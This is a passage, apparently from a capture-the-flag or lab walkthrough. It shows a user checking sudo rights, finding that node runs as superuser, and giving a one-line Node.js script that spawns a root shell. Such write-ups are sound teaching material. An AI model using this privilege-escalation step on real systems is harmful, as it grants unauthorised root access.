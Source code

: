 ![img16](screenshots/img16.png)

- We're logged in as **angoose**!

### Target Enumeration

- Checking SUDO privileges

```
sudo -l
```

![img17](screenshots/img17.png)

- We can execute **node** as a superuser and the execution of scripts should be in **/usr/local/scripts** folder.

### Privilege Escalation

- Let's create a script to execute bin bash, and run it with node:

**script:**

```
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
